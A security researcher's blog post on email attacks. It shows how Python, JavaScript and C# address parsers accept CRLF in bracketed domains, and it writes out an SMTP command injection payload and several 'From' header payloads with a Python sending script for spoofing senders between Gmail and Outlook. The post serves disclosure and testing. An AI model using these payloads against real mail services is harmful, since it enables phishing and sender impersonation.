




+++
title = 'Old new email attacks'
date = 2024-05-23T15:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
This article will be dedicated to my research in the field of email service attacks, including all aspects related to email messages.

# Address
## Basics
Let's start with the basics. Within the "From" header tag, the following types of structures exist: 

Email - `From: slonser@domain.com` 

Name - `From: "slonser" <slonser@domain.com>`

Comments - `From: <slonser@domain.com> (comment content)` 

Grouping - `From: Group Name: <slonser@domain.com>` 

Sender header - `Sender: slonser@domain.com` 

## [address]
The email standard allows inserting a domain within square brackets `[]`, where a broader range of characters is permitted (though still limited).
```
domain = dot-atom / domain-literal / obs-domain

domain-literal = [CFWS] "[" *([FWS] dcontent) [FWS] "]" [CFWS]

dcontent = dtext / quoted-pair

dtext = NO-WS-CTL /     ; Non white space controls

        %d33-90 /       ; The rest of the US-ASCII
        %d94-126        ;  characters not including "[",
                        ;  "]", or "\
```

## Python
Let's take a look at the implementation of the address parser in Python's standard library.

In Python, the email module provides a way to parse email addresses. Specifically, the email.utils submodule includes the parseaddr function, which can be used to parse email addresses. Here’s an example of how this can be done:
```
>>> from email.utils import parseaddr
>>> parseaddr("<s@[domain.com\nSlon:]>")
('', 's@[domain.com\nSlon:]')
```
As you can observe, Python does not strictly adhere to the RFC standards we reviewed and allows the inclusion of non-printable ASCII characters within email addresses, which can lead to CRLF injection vulnerabilities.

## addressparser JS

```Javascript
const addressparser = require ('addressparser');
var addresses = addressparser ('Slonser <slonser@[S]\x00\r\n]>');
console.log (addresses) ;
```

```
//Output: [ { address: 'slonser@[S]\x00\r\n]', name: 'Slonser' } ]
```
## email-addresses in JS
Let's test another popular solution - [email-addresses](https://www.npmjs.com/package/email-addresses).
```
const addrs = require("email-addresses")
let result = addrs.parseOneAddress("<slonser@[::1>\"\\[:<h1>slonser@gmail.com,русский?]>")
console.log(result.address)
```
Result:
```
slonser@[::1>"[:<h1>slonser@gmail.com,русский?]
```
So we can input `[` in `[]`.

Also as you can see, UTF-8 characters are used here. The problem is that according to the RFC, an address should contain only ASCII characters. When forwarding to other services, we may encounter the issue where a UTF-8 character is interpreted as separate bytes.


## C#
Let's look at a standard example of sending emails in C#. The System.Net.Mail namespace provides classes to construct and send email messages. Here's a basic example:
```C#
        static void sendMessage(String to_string){
            MailAddress from = new MailAddress("slonser.bugbounty@outlook.com", "Slonser");
            MailAddress to = new MailAddress(to_string);
            MailMessage m = new MailMessage(from, to);
            Console.WriteLine(to);
            m.Subject = "Subject";
            m.Body = "Body";
            SmtpClient smtp = new SmtpClient("smtp-mail.outlook.com", 587);
            smtp.Credentials = new NetworkCredential("slonser.bugbounty@outlook.com", "password");
            smtp.EnableSsl = true;
            smtp.Send(m);
        }
```
Here is a basic example of sending an email where we control only the "To" field in the message. 

It's important to understand that the MailAddress class in C# performs filtering:

```C#
to_string="<slonser.bugbounty@\r\nyandex.ru>";
sendMessage(to_string);
```
You will see that the input is validated and newline characters are removed:
 

But `[]`...:
```C#
var to_string = "sevakokorin80@[test\r\nslonser]";
sendMessage(to_string);
```
Output:


This means we have the opportunity to insert CRLF in the address. Therefore, let's try to use SMTP injection.

```
slonser@[test
RSET
MAIL FROM: <slonser.bugbounty@yandex.ru>
RCPT TO: <recipient@yandex.ru>
DATA
From: slonser.bugbounty@yandex.ru

Changed
.
QUIT
]
```
And you will see output:



This means we can insert external SMTP commands, reset the current SMTP session using the RSET command, and send arbitrary emails from the service.

As a result, this allows sending emails with any content to any email addresses, which can be used in phishing attacks.

A typical example of such attacks involves websites that send registration or password recovery emails. I have found instances where this can indeed lead to scenarios where we can send arbitrary content as if it were from the company's domain.

Indeed, other patterns that were considered earlier lead to similar problems. However, the address is not always directly inserted into the SMTP packet

# Email spoofing
Another major issue I encountered is the inconsistency of SMTP servers. The problem is that SMTP servers parse the recipient address differently, which leads to email spoofing.

## Script for testing
The following Python script will be used for testing:
```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Replace these values with your own information
sender_email = "slonser.bugbounty@gmail.com"
receiver_email = "<slonser.bugbounty@outlook.com>"
password = "password" # gmail
smtp_server = "smtp.gmail.com"
message["From"] = "<spoofed@gmail.com> \"spoofed\" <slonser.bugbounty@gmail.com>"

message.attach(MIMEText('Amogus', "plain"))

server = smtplib.SMTP(smtp_server, smtp_port)
server.set_debuglevel(1)
server.starttls()
server.login(sender_email, password)
print(message.as_string())
server.sendmail(sender_email, receiver_email, message.as_string())
```
For all the payloads below, simply change message["From"] in the given code.

## Gmail -> Outlook
Gmail allows inserting `<something>` before the actual email address, which leads to incorrect parsing of the address by many email providers, including Outlook.
```
<spoofed@gmail.com> "spoofed" <slonser.bugbounty@gmail.com>
```
In Outlook, you will see spoofed@gmail.com:


## Grouping Nightmare
Another issue I discovered is that some email providers allow the use of the symbols < and > in group names, which does not comply with RFC standards. Therefore, we can utilize the following two payloads:

```
<spoofed@domain.com>:<valid@domain.com>
<valid@domain.com>:<spoofed@domain.com>
```

### Outlook -> Gmail
Let's use this in outlook.
```
"Spoofed"
<slonser.bugbounty@outlook.com>: spoofed@outlook.com
```


### Gmail -> Outlook (part 2)
Just use second payload:
```
Slonser <spoofed@gmail.com>:<slonser.bugbounty@gmail.com>
```
You will see sender:


### Gmail  -> ...
Gmail incorrectly parses group strings. It first splits the string at the colon (:), then parses the resulting segments separately. This behavior does not comply with RFC standards. For spoofing, you can use the following payloads:
```
": <slonser.bugbounty@gmail.com> "<spoofed@gmail.com>"
```

Services that correctly parse the "From" field will interpret this as `spoofed@gmail.com`.
## Another Tips
- Sometimes you need to use Sender header (Because it's not validated)
- If parser blocks CRLF in `[]` try to use unicode characters

# Finally
This is not an exhaustive list; the same issues affect desktop and mobile clients such as Thunderbird and Apple Mail. I am deeply saddened that this topic is not highlighted in the information security community. During my research, I did not find a single mail provider that correctly parses the "From" field according to RFC standards.